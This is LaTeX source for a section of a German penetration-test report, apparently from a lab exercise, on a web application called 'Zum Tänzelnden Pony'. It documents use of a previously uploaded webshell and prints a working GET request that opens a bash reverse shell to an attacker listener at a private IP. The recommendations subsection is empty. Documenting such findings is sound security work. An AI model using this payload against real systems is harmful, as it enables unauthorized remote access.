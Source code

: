 \section{\makecvssbadge Zum Tänzelnden Pony: Reverse Shell}


\subsection*{Proof of concept}
Durch den vorherigen Upload einer Webshell ist diese nun unter der Sub-URL "\url{/shell1.php}" erreichbar. Über den \texttt{cmd} Parameter kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listenner auf dem Angreifer-System erstellt werden (siehe \autoref{listing:netcat-listener}). Danach kann ein passender Angriffsvektor über die Webshell geschickt werden. Dieser HTTP-GET-Request ist in \autoref{listing:pony:reverse_shell} aufgeführt. Ein Beweisscreenshot ist in \autoref{fig:09_taenzelndes_pony_proof} dargestellt.

\begin{listing}[!ht]
\begin{verbatim}
GET /shell1.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.0.32.2/9002+0>%261'
\end{verbatim}
\caption{Reverse Shell}
\label{listing:pony:reverse_shell}
\end{listing}


\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/09_taenzelndes_pony_proof.png}
    \caption{Proof für die Webanwendung Zum tänzelnden Pony}
    \label{fig:09_taenzelndes_pony_proof}
\end{figure}
\subsection*{Empfehlungen}